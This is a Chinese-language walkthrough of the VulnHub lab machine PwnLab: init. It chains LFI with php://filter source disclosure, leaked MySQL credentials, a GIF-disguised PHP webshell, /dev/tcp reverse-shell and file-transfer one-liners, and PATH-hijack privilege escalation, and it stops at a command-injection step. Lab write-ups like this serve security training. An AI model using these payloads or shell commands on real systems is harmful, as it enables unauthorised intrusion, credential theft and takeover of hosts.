# 0x0F - PwnLab

## 基本信息

- 靶场名称：PwnLab
- 靶场链接：[VulnHub - PwnLab: init](https://www.vulnhub.com/entry/pwnlab-init,158/)
- 考点清单：信息收集、LFI、PHP Filter、MySQL 凭据获取、文件上传、反弹 Shell、SUID 提权、PATH 环境变量劫持、命令注入
- 工具清单：Nmap、Gobuster、DIRB、WhatWeb、Burp Suite、SQLMap、ExifTool、MySQL、SearchSploit、Netcat

## 攻击链路

```
Recon
  │
  ├── Nmap：发现 80、3306 等端口
  │
  ├── Gobuster：发现 index.php、config.php、login.php
  │
  ▼
LFI
  │
  ├── ?page=login
  ├── php://filter 读取 PHP 源码
  └── 获取 config.php 中的数据库凭据
  │
  ▼
MySQL
  │
  ├── 登录数据库
  ├── 获取 Users.users 中的用户凭据
  └── Base64 解码得到用户密码
  │
  ▼
File Upload + LFI
  │
  ├── kent 账号登录
  ├── 上传 GIF 图片马
  ├── 利用 index.php 的 include 包含图片马
  └── PHP Reverse Shell
  │
  ▼
kent → kane → mike → root
  │
  ├── 用户凭据复用：切换 kane
  ├── PATH Hijacking：kane → mike
  └── Command Injection：mike → root
  │
  ▼
Root Flag
```

## 1. 信息收集

### 1.1 主机发现与端口扫描

```shell
nmap -sn 192.168.56.1/24 --min-rate 1000
IP=192.168.56.117
nmap -A $IP -oN nmap.txt -p `nmap -sS -sU -p- -Pn $IP --min-rate 8888 | grep '/tcp\|/udp' | awk -F '/' '{print $1}' | sort -u | tr '\n' ','`
```



**关注 3306 端口**

MySQL 服务对外开放，后续可以结合源码泄露获取数据库凭据，尝试直接连接数据库

### 1.2 目录扫描

使用 DIRB、Gobuster 枚举 Web 目录及文件

```shell
dirb http://192.168.56.117/

gobuster dir \
-u "http://192.168.56.117/" \
-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
-x php,html,zip
```

> 其中 Gobuster 使用 `dir` 模式进行目录及文件枚举，`-x` 用于追加指定文件扩展名
>
> 例如字典中存在 `backup`，则会额外尝试 `backup.php`、`backup.html`、`backup.zip`

发现以下文件：

- `index.php`
- `config.php`
- `login.php`

### 1.3 开发语言识别

`whatweb http://192.168.56.117` 未能识别具体开发语言，于是通过手动请求判断

- `index.html`：Not Found
- `index.jsp`：Not Found
- `index.php`：正常回显

初步确定目标站点使用 PHP 开发

### 1.4 图片隐写检查

对主页图片进行简单隐写排查，未发现有效信息

```shell
wget http://192.168.56.117/images/0x0F - PwnLab.png

exiftool 0x0F - PwnLab.png

strings 0x0F - PwnLab.png
```

## 2. 文件包含与 PHP 源码读取

### 2.1 定位文件包含点

访问 `/?page=login`，发现登录页面

结合前面的 MySQL 端口信息，首先尝试对登录功能进行 SQL 注入

```
admin' || '1' like '1
admin' || 1 like 1 --+
```

手工测试无果，进一步使用 SQLMap

将 Burp Suite 捕获的登录请求保存为 `req.txt`，修改请求主体，在参数中使用 `*` 标记注入位置

```
user=1*&pass=2*&submit=Login
```

执行：

```
sqlmap -r req.txt --batch --level 5
```

仍未发现有效注入点

重新观察 URL 中的 `?page=login`，结合已经发现的 `login.php`，怀疑 `page` 参数存在文件包含漏洞

逐一测试：

**1. 尝试包含已知文件**

```
?page=config
```

页面空白，没有明显回显



**2. 尝试包含不存在的文件**

```
?page=config123123
```

仍然空白，无法通过页面回显判断文件是否存在



**3. 尝试目录穿越**

```
?page=../../../../../etc/passwd
```

依然空白且没有回显

**4. 尝试 PHP Filter 伪协议**

```
?page=php://filter/read=convert.base64-encode/resource=../../../../../etc/passwd
```

同上

**5. 尝试读取相对路径下的 PHP 源码**

```
?page=php://filter/read=convert.base64-encode/resource=index
```

这次获得了 Base64 编码后的响应内容



### 2.2 批量读取 PHP 源码

利用 PHP Filter 对目标 PHP 文件进行 Base64 编码读取，避免 PHP 文件被直接解析执行

```
?page=php://filter/read=convert.base64-encode/resource=index
?page=php://filter/read=convert.base64-encode/resource=config
?page=php://filter/read=convert.base64-encode/resource=upload
```

将响应中的 Base64 内容解码，还原 PHP 源码

```
echo 'BASE64_CONTENT' | base64 -d > index.php
echo 'BASE64_CONTENT' | base64 -d > config.php
echo 'BASE64_CONTENT' | base64 -d > upload.php
```

获得 `index.php`、`config.php`、`upload.php` 三个文件的源码

## 3. 数据库凭据获取

### 3.1 源码审计获取数据库凭据

查看还原后的 `config.php`，发现数据库连接配置中存在明文账号密码



结合 Nmap 发现的 3306 端口，尝试直接连接 MySQL

```
mysql -uroot -pH4u%QJ_H99 -h 192.168.56.117
```

成功连接数据库

### 3.2 获取用户凭据

在 `Users.users` 表中发现三条用户记录，密码以 Base64 形式存储



将查询结果保存到 `pass.list`，分别提取用户名和密码字段

```
# 提取用户名
cat pass.list | awk '{print $2}' > user.list

# 提取 Base64 密码并解码
for i in $(cat pass.list | awk '{print $4}'); do
    echo "$i" | base64 -d
    echo
done > pass

mv pass pass.list
```

得到用户名字典与密码字典





## 4. 文件上传 + LFI Getshell

### 4.1 登录并进入上传页面

回到 `?page=login`，使用前面获取的 kent 用户凭据完成登录，进入 `?page=upload` 文件上传页面

结合前面还原的源码，审计 `index.php`，发现存在 `include` 文件包含点

由此形成利用链：

```
文件上传
   │
   ▼
上传 GIF 图片马
   │
   ▼
index.php 文件包含
   │
   ▼
执行图片马中的 PHP 代码
   │
   ▼
命令执行 / 反弹 Shell
```

### 4.2 构造 GIF 图片马

在图片文件中添加 PHP 代码，构造图片马

```
GIF89a
<?php
    system($_GET[0]);
    phpinfo();
?>
```

其中：

- `GIF89a`：GIF 文件头，用于满足简单的文件类型检查
- `system($_GET[0])`：通过 GET 参数接收系统命令并执行
- `phpinfo()`：输出 PHP 配置信息，用于检查运行环境

上传图片马后，通过 `index.php` 的文件包含点执行其中的 PHP 代码



### 4.3 检查 disable_functions

由于图片马同时执行 `phpinfo()`，可以直接在输出页面中搜索 `disable_functions`，查看 PHP 禁用函数列表



### 4.4 反弹 Shell

尝试三种方式获取交互式 Shell

**尝试一：通过 system 执行反弹命令**

```
sh -i >& /dev/tcp/192.168.56.1/2233 0>&1
```

无有效回连



**尝试二：修改图片马使用 exec**

```
<?php
exec("sh -i >& /dev/tcp/192.168.56.1/2233 0>&1");
?>
```

重新上传后仍然没有成功



**尝试三：使用完整 PHP Reverse Shell**

改用较完整的 PHP 反弹 Shell 脚本，最终成功建立连接



### 4.5 Shell 交互优化

获得 Shell 后，使用 Python PTY 提升交互体验

```
which python
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

# Ctrl + Z 返回本地终端
stty raw -echo; fg
```

此时可以使用 Tab 补全、方向键及 `Ctrl+C` 等交互功能

## 5. 提权

### 5.1 信息收集

首先查看具有 Home 目录的用户

```
cat /etc/passwd | grep home
```



随后枚举 SUID 文件

```
find / -perm -u=s -type f 2>/dev/null
```



发现 `exim4` 等具有 SUID 权限的程序

### 5.2 exim4 与 procmail 提权尝试

首先检查 Exim 版本

```
/usr/sbin/exim4 --version
```



使用 SearchSploit 搜索相关漏洞

```
searchsploit exim 4.8
```



尝试下载相关利用脚本

```
searchsploit exim -m 39549 44571
```

其中一个 Python 脚本需要传输到靶机执行，使用 Netcat 传输文件

Kali：

```
nc -lvvp 2233 < 44571.py
```

靶机：

```
cd /tmp
cat < /dev/tcp/192.168.56.1/2233 > 1.py
chmod +x 1.py
python 1.py
```

kent 用户下针对 Exim、procmail 的 SUID 提权尝试均未成功，暂时放弃该方向

### 5.3 利用已获取的用户凭据切换身份

回顾前面从 MySQL 获取的 `username:passwd`，尝试使用密码切换其他用户



测试结果：

- mike：无法直接登录
- kane：成功切换

当前权限从 kent 提升至 kane

### 5.4 kane → mike：PATH 环境变量劫持

在 kane 的家目录中，发现一个属于 mike 用户、mike 用户组的可执行文件 `msgmike`



执行程序：

```
./msgmike
```

出现报错：

```
cat: /home/mike/msg.txt: No such file or directory
```



使用 `strings` 查看程序中的字符串

```
strings msgmike
```



发现程序内部调用了：

```
cat /home/mike/msg.txt
```

关键点在于，程序调用的是 `cat`，而不是 `/bin/cat`

由于 `cat` 使用相对命令名，系统会根据 `$PATH` 环境变量寻找对应的可执行文件

因此可以在当前目录构造同名程序，劫持原本的 `cat` 命令

**构造恶意 cat**

```
echo /bin/bash > cat
chmod +x cat
export PATH=.:$PATH
```

将当前目录 `.` 放在 `$PATH` 最前面，使系统优先执行当前目录下的 `cat`

重新执行：

```
./msgmike
```

成功获得 mike 用户权限



**利用原理**

```
msgmike
   │
   ▼
system("cat /home/mike/msg.txt")
   │
   ▼
PATH 搜索 cat
   │
   ▼
优先匹配当前目录 ./cat
   │
   ▼
执行 /bin/bash
   │
   ▼
获得 mike 权限
```

### 5.5 mike → root：msg2root 命令注入

在 mike 的家目录下，发现另一个可执行文件 `msg2root`，其所属用户和用户组均为 root

